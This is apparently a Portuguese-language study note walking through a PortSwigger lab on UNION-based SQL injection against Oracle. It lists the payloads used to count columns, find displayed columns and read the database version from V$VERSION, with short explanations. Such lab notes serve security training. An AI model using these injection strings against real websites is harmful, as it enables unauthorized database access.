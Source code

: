 ```yaml
---
description: SQL INJECTION UNION BASED
---
```


# Lab portswigger (SQL injection attack, querying the database type and version on Oracle)

<mark style="color:green;">Encontrar número de colunas: /filter?category=Lifestyle' ORDER BY 2 --</mark>

<mark style="color:orange;">(no final do link, colocar ' ORDER BY 1, 2 ou 3, até você descobrir o número de colunas que tem no banco de dados).</mark>

<mark style="color:green;">' UNION SELECT 'COLUNA 1', 'COLUNA 2' FROM DUAL --</mark> <mark style="color:orange;">(Esse comando, serve para separar as colunas, para que ela mostre no site, e você saiba em qual você vai injetar o comando requerido).</mark>

<mark style="color:green;">' UNION SELECT BANNER, 'COLUNA 2' FROM V$VERSION --</mark> <mark style="color:orange;">(Trocando o "COLUNA 1" por BANNER para injetar o comando "V$VERSION" que é a função de ver o banco de dados no oracle, com isso vai aparecer no lugar da coluna 1 "CORE 11.2.0.2.0 Production", que é o objetivo do lab.</mark>
